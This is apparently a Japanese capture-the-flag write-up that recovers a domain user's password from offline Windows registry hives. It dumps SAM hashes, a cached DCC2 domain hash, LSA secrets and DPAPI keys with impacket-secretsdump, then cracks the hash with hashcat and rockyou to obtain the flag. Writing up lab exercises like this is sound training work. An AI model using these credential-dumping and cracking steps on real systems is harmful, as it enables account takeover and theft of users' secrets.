

### 使用OS：Kali


**Registry.zip（オフラインのレジストリ）から “ドメインユーザ himura のパスワード” を特定する 系で、だいたい下のどれかに入ってる。**

- 自動ログオン（AutoLogon） の平文パスワード（当たり枠）
- Cached Domain Logon（DCC2 / MSCACHEv2） のハッシュ → クラックして平文へ（王道）
- LSA Secrets（環境によっては平文/鍵素材が出る）

1.Registry.zipをダウンロードして展開する

- 中身のファイルは３つ

2.secretdumpを実行
```bash
impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY LOCAL

#
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xc679b4c948d6bcc712929c0dc458bdce
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:bfc75a4b8657c77495b454f9d3f85bca:::
Mizuguchi:1002:aad3b435b51404eeaad3b435b51404ee:c3254e21fe9413bdf89ce0e645cb74f3:::
[*] Dumping cached domain logon information (domain/username:hash)
MYDOMAIN.LOCAL/himura:$DCC2$10240#himura#82c4fe5bcb7b74fbdec072c09817b1f2: (2024-04-29 11:21:34+00:00)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:2c00460051003b0052006b002e002800450027003d0063006a00650060006c0048002f00450071003d003c0036002c00490031006f00260029002a00290067002a0060003f0045005f0023003a00230029004c005c007a005f00710039004500200074002b0041007a002c00550053002100270073005d004400230059002f0059005b00420051003f006c007600750042003f0035006e00450078003b002a0072002f0032006d00330069002b0046006800700032002800660058005d005c005e00530071005e00320039006b003a0046004b0065005400200057005a002b005c00320073002800770042004b005300
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:4bc5b88c2f1670c3bb1ca91358ddc582
[*] DefaultPassword 
(Unknown User):password
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xcece4739d0be6846edf955df41b516c0ef2979aa
dpapi_userkey:0x383d1db28723d307c9b1ec8f32149235bb8e8eb3
[*] NL$KM 
 0000   E2 F2 EA C8 D5 F6 19 77  7C 54 FF 5F 24 8D 08 55   .......w|T._$..U
 0010   8F 4B 8A 5E 8E 05 47 3C  3A 8F 2D D4 1B 02 15 98   .K.^..G<:.-.....
 0020   63 80 C8 62 BB F1 70 7B  6E 76 E4 F0 46 9F 83 97   c..b..p{nv..F...
 0030   E5 7C 1E AE 1E F5 D3 5D  68 67 2F C6 E0 B0 05 F9   .|.....]hg/.....
NL$KM:e2f2eac8d5f619777c54ff5f248d08558f4b8a5e8e05473c3a8f2dd41b0215986380c862bbf1707b6e76e4f0469f8397e57c1eae1ef5d35d68672fc6e0b005f9
[*] Cleaning up... 
```
3.MYDOMAINを発見
```
MYDOMAIN.LOCAL/himura:$DCC2$10240#himura#82c4fe5bcb7b74fbdec072c09817b1f2
```
4.ハッシュファイルに保存する
```bash
vi dcc2.txt

#入れ込む
$DCC2$10240#himura#82c4fe5bcb7b74fbdec072c09817b1f2
```
5.ハッシュキャットでやってみる
```bash
hashcat -m 2100 dcc2.txt /usr/share/wordlists/rockyou.txt

#
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-12th Gen Intel(R) Core(TM) i3-1215U, 2218/4437 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

INFO: All hashes found as potfile and/or empty entries! Use --show to display them.
      For more information, see https://hashcat.net/faq/potfile

Started: Sun Dec 21 19:08:44 2025
Stopped: Sun Dec 21 19:08:44 2025
```
- 一度、hashcatしたら再実行できないので次のコマンドで閲覧

```bash
 hashcat -m 2100 --show dcc2.txt
```
```
$DCC2$10240#himura#82c4fe5bcb7b74fbdec072c09817b1f2:i0d&gmodel

#i0d&gmodel がパスワード
```

※３０分くらい解析にかかってた

### GBI{i0d&gmodel}
